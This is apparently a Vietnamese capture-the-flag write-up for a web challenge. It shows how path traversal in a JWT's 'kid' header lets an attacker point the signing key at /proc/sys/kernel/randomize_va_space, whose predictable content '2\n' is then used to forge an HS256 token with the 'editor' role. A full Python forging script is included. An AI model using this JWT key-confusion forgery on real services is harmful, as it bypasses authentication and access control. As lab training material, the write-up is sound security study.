



# Analysis
Challenge cung cấp 2 chức năng chính là `login` và `Editor's Desk` thông qua 2 route `/login` `/admin`.

Login với username thông thường server sẽ trả về jwt, mình đưa jwt lên `token.dev` để phân tích thì có các `key-value` quan trọng như `"kid": "reader.key"` , `"role": "reader"`.

Tiếp tục truy cập vào route `/admin` mình thấy server kiểm tra role của session hiện tại có phải là `editor` hay không. Mình đã force jwt với role `editor` thì server trả về reponse như dưới:


Thông qua response mình nghi ngờ là nó sẽ đọc file thông qua giá trị `kid`. Sau đó mình thử payload `path traversal` đọc file /etc/passwd và có hiển thị nội dung.




# Solution
1. Sửa `kid` thành `/proc/sys/kernel/randomize_va_space` hàm này chứa nội dung `2\n`
2. Tạo token với key là `2\n` và role `editor`
3. Nhập token vừa tạo và truy cập vào route `/admin`




# Script

```python
import base64
import hashlib
import hmac
import json

def b64(data):
    return base64.urlsafe_b64encode(data).rstrip(b"=").decode()

header = {
    "alg": "HS256",
    "kid": "/proc/sys/kernel/randomize_va_space",
    "typ": "JWT",
}

payload = {
    "sub": "reader",
    "role": "editor",
}

part1 = b64(json.dumps(header, separators=(",", ":")).encode())
part2 = b64(json.dumps(payload, separators=(",", ":")).encode())
signing_input = f"{part1}.{part2}".encode()

key = b"2\n"
signature = hmac.new(key, signing_input, hashlib.sha256).digest()

token = f"{part1}.{part2}.{b64(signature)}"
print(token)
```